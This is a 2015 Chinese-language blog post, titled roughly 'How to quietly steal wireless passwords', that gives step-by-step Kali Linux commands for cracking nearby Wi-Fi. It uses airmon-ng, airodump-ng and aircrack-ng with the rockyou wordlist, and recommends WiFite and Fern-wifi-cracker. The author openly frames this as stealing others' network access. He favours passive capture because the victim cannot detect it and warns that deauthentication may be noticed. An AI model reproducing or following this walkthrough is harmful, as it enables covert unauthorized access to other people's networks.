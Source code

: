 ```yaml
---
layout: post
title: "如何安静地窃取无线密码"
date: 2015-01-13 16:59
categories: 進芫
permalink: /how-to-sniffer-wifi-password-silently.html
identifier: how-to-sniffer-wifi-password-silently
---
```


作为一个安静的美男子，我们有时候需要安静的获得无线密码。  
常见的抓包破解、wps暴力破解、猥琐技巧破解都太暴力了，不适合我们。  

###**最Easy的办法**
手机下载万能WiFi密码，尝试一下，不行再进行以下的步骤。

###**安静的方法**

1. 下载[`Kali Linux`](http://kali.org)的VMware虚拟机镜像，插入无线网卡，分配无线网卡给虚拟机。  

2. `ifconfig`查看无线网卡的名字（一般是wlan0）。  

3. `airmon-ng start wlan0`，再`ifconfig`查看下新增了哪个（一般是`mon0`）。  

4. `airodump-ng -w xxx mon0`，xxx是保存的文件名。  

5. 新开一个窗口`tar zxvf /usr/share/wordlists/rockyou* -C /usr/share/wordlists/`  

6. `aircrack-ng xxx* -w /usr/share/wordlists/rockyou.txt`，选择WEP的，或者WPA handshake数量大于0的。  

7. 然后就是安静的坐等，运气好的话，刚回车就能有密码，运气不好rockyou.txt中一千四百多万个密码都不匹配。两种情况我都遇到过。  


###**暴力的方法**  
1. WiFite或者Fern-wifi-cracker，Kali中都有，傻瓜式，运气好一觉醒来就能收获几个密码。  


###**备注**  
1. 主动破解为了提升效率，有时需要使对方断网重连，容易被发现，也会给对方造成困扰。对方假如使用XX安全路由，也会检测到正在被攻击。    

2. 安静的方法被动接收数据，效率和可能性相对主动破解效率低非常多，但是完全不会被检测到，相对Gentle，适合在无线多的地方使用。  
被动接收不会被发现的原因参考[`这个帖子`](http://www.backtrack-linux.org/forums/showthread.php?t=13144)  